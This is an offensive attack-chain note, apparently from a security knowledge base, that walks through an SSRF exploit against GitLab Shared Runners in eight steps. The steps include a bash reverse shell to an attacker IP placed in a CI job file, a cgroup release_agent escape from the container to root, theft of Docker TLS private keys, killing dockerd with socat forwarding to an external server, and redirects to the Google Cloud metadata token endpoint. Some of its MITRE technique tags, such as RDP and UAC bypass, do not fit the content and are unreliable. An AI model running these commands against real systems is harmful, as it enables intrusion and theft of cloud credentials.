

---
tags:
  - ssrf
  - gitlab
  - docker
  - cgroup
  - privilege-escalation
  - metadata-exfiltration
  - gcp
type: attack_chain
tools:
  - '[[tools/nc]]'
  - '[[tools/netstat]]'
  - '[[tools/socat]]'
  - '[[tools/maliciousHttpsServer.py]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
  - '[[Discovery]]'
  - '[[Lateral Movement]]'
  - '[[Collection]]'
commands:
  - '[[commands/bash-reverse-shell-to-attacker]]'
  - '[[commands/nc-listen-for-shell]]'
  - '[[commands/mkdir-host-mount-point]]'
  - '[[commands/mount-host-storage-volume]]'
  - '[[commands/setup-cgroup-for-root-execution]]'
  - '[[commands/enable-cgroup-notify-on-release]]'
  - '[[commands/export-host-path-from-mtab]]'
  - '[[commands/set-cgroup-release-agent]]'
  - '[[commands/cat-docker-server-pem]]'
  - '[[commands/cat-docker-server-key-pem]]'
  - '[[commands/create-cmd-script-shebang]]'
  - '[[commands/append-netstat-to-cmd-script]]'
  - '[[commands/chmod-executable-cmd]]'
  - '[[commands/trigger-cgroup-execution]]'
  - '[[commands/cat-netstat-output]]'
  - '[[commands/append-kill-and-socat-to-cmd-script]]'
  - '[[commands/cat-kill-socat-output]]'
platforms:
  - Linux
  - GCP
  - Docker
complexity: high
procedures:
  - '[[procedures/Gain-Reverse-Shell-in-GitLab-CI-Job]]'
  - '[[procedures/Mount-Host-Filesystem-and-Escalate-to-Root-via-Cgroup]]'
  - '[[procedures/Extract-Docker-Certificates-from-Host]]'
  - '[[procedures/Setup-Malicious-HTTPS-Server-with-Stolen-Certs]]'
  - '[[procedures/Find-Docker-Daemon-PID-Using-Netstat]]'
  - '[[procedures/Kill-Docker-Daemon-and-Redirect-Traffic-with-Socat]]'
  - '[[procedures/Redirect-Docker-Requests-to-Internal-Targets]]'
  - '[[procedures/Observe-Partial-Response-Leakage-in-Job-Logs]]'
step_count: 8
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
  - '[[Unix Shell]]'
  - '[[Bypass User Account Control]]'
  - '[[Remote Desktop Protocol]]'
  - '[[Hijack Execution Flow]]'
description: >-
  Multi-stage attack exploiting SSRF in GitLab Runner's Docker client to gain
  root access on the executor, hijack the Docker daemon, and perform blind SSRF
  to internal services like Google Cloud metadata.
skill_level: advanced
impact_level: critical
id: 9a446c83-7e81-4891-94e8-b74481a1ed66
created_at: '2025-12-14T04:08:48.128Z'
updated_at: '2025-12-14T04:08:48.128Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
  - '[[Discovery]]'
  - '[[Lateral Movement]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Command-Line Interface]]'
  - '[[Unix Shell]]'
  - '[[Bypass User Account Control]]'
  - '[[Remote Desktop Protocol]]'
  - '[[Hijack Execution Flow]]'
---
# SSRF in GitLab Shared Runners via Docker Client Redirects to Access Internal Metadata

## Overview

This attack chain exploits a Server-Side Request Forgery (SSRF) vulnerability in GitLab's Shared Runners Docker client, which lacks a redirect policy and follows HTTP redirects blindly. An attacker with access to run CI jobs can gain a reverse shell in the executor, escalate to root privileges using cgroups, extract Docker certificates, kill the legitimate Docker daemon, and redirect traffic to a malicious external HTTPS server. This server mimics the Docker daemon and issues redirects to internal targets like Google Cloud metadata services, enabling blind SSRF with GET, POST, and DELETE requests, partial response leakage, and potential resource exhaustion.

The chain demonstrates a full compromise from CI job execution to internal network access, highlighting risks in shared runner environments.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~30 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | Critical |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/nc]]
- [[tools/netstat]]
- [[tools/socat]]
- [[tools/maliciousHttpsServer.py]]

### Target Environment

- GitLab Shared Runners with Docker executor
- Linux-based executor (e.g., Ubuntu)
- Docker daemon listening on TCP port 2376 (TLS enabled)
- Host filesystem accessible via /dev/sda9 or similar volume
- Google Cloud or similar metadata service on internal network

### Initial Access Requirements

- Ability to create and run CI jobs in a GitLab project with shared runners
- External attacker machine with network access to executor (outbound)
- No prior credentials needed beyond CI job permissions

## Detailed Attack Procedures

### Step 1: Gain Reverse Shell in GitLab CI Job
procedure: [[procedures/Gain-Reverse-Shell-in-GitLab-CI-Job]]

**Objective**: Establish shell access inside the GitLab Runner executor from a CI job.

**Instructions**: Create a GitLab CI job YAML with a reverse shell command using [[commands/bash-reverse-shell-to-attacker]] to connect to your external listener. On the attacker machine, start a listener with [[commands/nc-listen-for-shell]].

```bash
# In .gitlab-ci.yml
script:
  - bash -i >& /dev/tcp/1.2.3.4/4444 0>&1
```

```bash
# On attacker machine
nc -lvp 4444
```

**Expected Output**: Interactive shell prompt in the executor container.

**Success Indicators**:
- Reverse shell connection established
- Commands executable in executor environment

### Step 2: Mount Host Filesystem and Escalate to Root via Cgroup
procedure: [[procedures/Mount-Host-Filesystem-and-Escalate-to-Root-via-Cgroup]]

**Objective**: Mount the host filesystem and set up cgroup for root privilege execution.

**Instructions**: In the shell, create mount point with [[commands/mkdir-host-mount-point]], mount the host volume using [[commands/mount-host-storage-volume]], then setup cgroup with [[commands/setup-cgroup-for-root-execution]], enable notification via [[commands/enable-cgroup-notify-on-release]], extract host path with [[commands/export-host-path-from-mtab]], and set release agent using [[commands/set-cgroup-release-agent]].

```bash
mkdir /h
mount /dev/sda9 /h
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
export host_path=`sed -n 's/.*\perdir=\([^,\]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

**Expected Output**: Cgroup configured for root command execution on release.

**Success Indicators**:
- Host filesystem mounted at /h
- release_agent set successfully

### Step 3: Extract Docker Certificates from Host
procedure: [[procedures/Extract-Docker-Certificates-from-Host]]

**Objective**: Retrieve Docker TLS certificates to impersonate the daemon externally.

**Instructions**: Use the mounted filesystem to cat the certificates with [[commands/cat-docker-server-pem]] and [[commands/cat-docker-server-key-pem]]. Copy the output to the attacker machine.

```bash
cat /h/etc/docker/server.pem
cat /h/etc/docker/server-key.pem
```

**Expected Output**: PEM-formatted certificate and private key contents displayed.

**Success Indicators**:
- Certificates extracted and transferred to attacker
- No permission errors on mounted files

### Step 4: Setup Malicious HTTPS Server with Stolen Certs
procedure: [[procedures/Setup-Malicious-HTTPS-Server-with-Stolen-Certs]]

**Objective**: Create an external server that mimics Docker daemon and issues SSRF redirects.

**Instructions**: On the attacker machine, place the stolen certs and run [[tools/maliciousHttpsServer.py]] configured to listen on port 1111, using the certs for TLS, and redirect requests to internal targets like metadata.google.internal.

**Expected Output**: HTTPS server running and ready to handle Docker API calls.

**Success Indicators**:
- Server logs show TLS handshake success with stolen certs
- Redirect logic active for Docker API paths

### Step 5: Find Docker Daemon PID Using Netstat
procedure: [[procedures/Find-Docker-Daemon-PID-Using-Netstat]]

**Objective**: Identify the PID of the Docker daemon listening on port 2376.

**Instructions**: Create a script in /cmd with [[commands/create-cmd-script-shebang]] and [[commands/append-netstat-to-cmd-script]], make executable via [[commands/chmod-executable-cmd]], trigger execution with [[commands/trigger-cgroup-execution]], then read output using [[commands/cat-netstat-output]]. Replace 999 with actual PID later.

```bash
echo '#!/bin/sh' > /cmd
echo "sudo netstat -tanp > $host_path/n2" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /n2
```

**Expected Output**: Netstat output listing PID for tcp 0.0.0.0:2376.

**Success Indicators**:
- PID identified (e.g., 999)
- No errors in cgroup trigger

### Step 6: Kill Docker Daemon and Redirect Traffic with Socat
procedure: [[procedures/Kill-Docker-Daemon-and-Redirect-Traffic-with-Socat]]

**Objective**: Terminate the real dockerd and forward its port to the malicious server.

**Instructions**: Reuse /cmd: overwrite with [[commands/create-cmd-script-shebang]] and [[commands/append-kill-and-socat-to-cmd-script]] (use actual PID), chmod with [[commands/chmod-executable-cmd]], trigger with [[commands/trigger-cgroup-execution]], and check errors via [[commands/cat-kill-socat-output]].

```bash
echo '#!/bin/sh' > /cmd
echo "sudo kill -9 999 && socat tcp-listen:2376,reuseaddr,fork tcp:1.2.3.4:1111 2> $host_path/k2" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /k2
```

**Expected Output**: Socat forwarding active; dockerd killed.

**Success Indicators**:
- Port 2376 now forwarded to attacker:1111
- No persistent errors in /k2

### Step 7: Redirect Docker Requests to Internal Targets
procedure: [[procedures/Redirect-Docker-Requests-to-Internal-Targets]]

**Objective**: Trigger SSRF by making the Runner interact with the hijacked Docker API.

**Instructions**: Run a CI job that invokes Docker commands (e.g., docker pull), which will hit the malicious server and get redirected to http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=text for GET/POST/DELETE.

**Expected Output**: Job fails with Docker API errors, but redirects executed internally.

**Success Indicators**:
- Malicious server logs show incoming Docker requests
- Redirects issued to internal endpoints

### Step 8: Observe Partial Response Leakage in Job Logs
procedure: [[procedures/Observe-Partial-Response-Leakage-in-Job-Logs]]

**Objective**: Capture leaked data from SSRF responses in CI job error logs.

**Instructions**: Review the failed CI job logs for parsing errors revealing partial responses (e.g., first character 'a' from access_token) or full error bodies.

**Expected Output**: Error logs showing invalid JSON with leaked chars like 'a'.

**Success Indicators**:
- Partial internal data visible in logs
- Confirmation of SSRF success via leakage

## Attack Chain Summary

### Key Achievements

1. Gained root access in GitLab executor via CI job and cgroup abuse
2. Hijacked Docker daemon traffic to external malicious server
3. Performed blind SSRF to localhost/link-local networks with partial exfiltration
4. Demonstrated resource exhaustion potential via hanging requests

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Command-Line Interface]]
- [[Unix Shell]]
- [[Bypass User Account Control]]
- [[Remote Desktop Protocol]]
- [[Hijack Execution Flow]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Privilege Escalation]]
- [[Discovery]]
- [[Lateral Movement]]
- [[Collection]]

---

*Last updated: 2023-10-01*
